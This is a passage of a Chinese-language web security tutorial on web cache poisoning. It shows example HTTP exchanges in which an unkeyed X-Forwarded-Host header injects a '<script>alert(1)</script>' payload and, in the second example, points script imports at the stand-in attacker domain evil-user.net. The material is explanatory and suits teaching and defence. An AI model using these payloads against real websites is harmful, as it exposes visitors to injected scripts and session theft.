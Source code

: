 ```
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

##### 使用 Web 缓存中毒来利用资源导入的不安全处理

一些网站使用非键标头动态生成用于导入资源的 URL，例如外部托管的 JavaScript 文件。在这种情况下，如果攻击者将相应标头的值更改为他们控制的域，他们可能会操纵 URL 以指向他们自己的恶意 JavaScript 文件。

如果包含此恶意 URL 的响应被缓存，攻击者的 JavaScript 文件将被导入并在其请求具有匹配缓存键的任何用户的浏览器会话中执行。

```
GET / HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: evil-user.net
User-Agent: Mozilla/5.0 Firefox/57.0

HTTP/1.1 200 OK
<script src="https://evil-user.net/static/analytics.js"></script>
```
















































